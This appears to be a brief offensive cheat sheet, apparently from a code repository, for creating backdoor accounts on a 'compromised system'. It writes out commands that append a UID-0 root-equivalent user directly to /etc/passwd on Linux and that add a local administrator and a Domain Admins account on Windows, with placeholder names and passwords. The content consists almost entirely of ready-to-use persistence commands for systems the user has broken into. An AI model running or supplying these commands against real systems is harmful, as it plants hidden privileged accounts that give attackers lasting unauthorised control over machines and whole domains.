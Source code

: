 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
```bash
echo '(USERNAME)::0:0:root:/root:/bin/bash' >> /etc/passwd
echo "(USERNAME):(PASSWD)"| /usr/sbin/chpasswd
```
## WINDOWS (DOS Method)
#### CREATE LOCAL ADMIN USER
```dos
net user (USERNAME) (PASSWORD)
net localgroup administrators (USER NAME) /add`
net localgroup administrators
```
#### CREATE DOMAIN ADMIN USER ON DC
```dos
net user /domain /add (USERNAME) (PASSWORD) /y
net group /domain /add "Domain Admins" (USERNAME)
```
